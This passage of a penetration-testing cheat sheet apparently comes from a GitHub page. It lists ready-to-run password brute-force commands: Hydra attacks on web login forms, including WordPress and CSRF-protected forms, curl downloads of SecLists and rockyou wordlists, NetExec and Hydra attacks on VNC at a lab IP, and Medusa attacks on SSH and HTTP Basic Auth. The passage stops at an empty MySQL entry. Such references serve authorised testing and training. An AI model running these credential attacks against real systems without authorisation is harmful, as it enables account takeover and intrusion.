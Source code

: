 ```bash
# Success condition (redirect)
hydra -L usernames.txt -P passwords.txt target.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"

# Success condition (content match)
hydra -L usernames.txt -P passwords.txt target.com http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"

# WordPress specific
hydra -l admin -P passwords.txt target.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"

# With additional form fields (CSRF, hidden fields)
hydra -l admin -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^&csrf_token=abc123:F=Login failed"

# Fast mode (stop on first success)
hydra -L usernames.txt -P passwords.txt -f target.com http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
```

#### Recommended Wordlists
```bash
# Download useful SecLists wordlists
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt

# Common username lists
/usr/share/seclists/Usernames/top-usernames-shortlist.txt
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

# Common password lists  
/usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
/usr/share/wordlists/rockyou.txt
```

### VNC Brute Force
```bash
# NetExec VNC
netexec vnc 10.129.42.197 -u user.list -p password.list

# Hydra VNC
hydra -P password.list vnc://10.129.42.197
```

## Alternative Tool: Medusa

### Medusa Quick Reference
```bash
# Basic syntax: medusa [target_options] [credential_options] -M module [module_options]

# SSH brute force
medusa -h 192.168.1.100 -U usernames.txt -P passwords.txt -M ssh

# Multiple targets
medusa -H targets.txt -U usernames.txt -P passwords.txt -M ssh

# HTTP Basic Auth
medusa -h target.com -U users.txt -P passwords.txt -M http -m GET

# MySQL database
```